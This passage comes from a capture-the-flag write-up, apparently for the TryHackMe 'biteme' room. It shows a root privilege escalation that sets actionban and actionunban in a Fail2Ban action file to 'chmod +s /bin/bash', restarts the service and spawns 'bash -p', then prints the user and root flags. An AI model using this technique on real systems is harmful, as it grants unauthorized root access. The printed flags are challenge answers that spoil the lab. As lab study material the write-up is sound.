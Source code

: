 	[Init]
	```

	- ## modified  actionban and actionunban
	```bash
	# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = chmod +s /bin/bash

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = chmod +s /bin/bash

	```

- # restart fail2ban 


```bash
fred@biteme:~$ sudo systemctl restart fail2ban
fred@biteme:~$ bash -p
bash-4.4# 
```

# cat user.txt
```bash
bash-4.4# cat /home/jason/user.txt 
THM{6fbf1fb7241dac060cd3abba70c33070}
```

# cat root.txt
```bash
bash-4.4# cat /root/root.txt
THM{0e355b5c907ef7741f40f4a41cc6678d}
```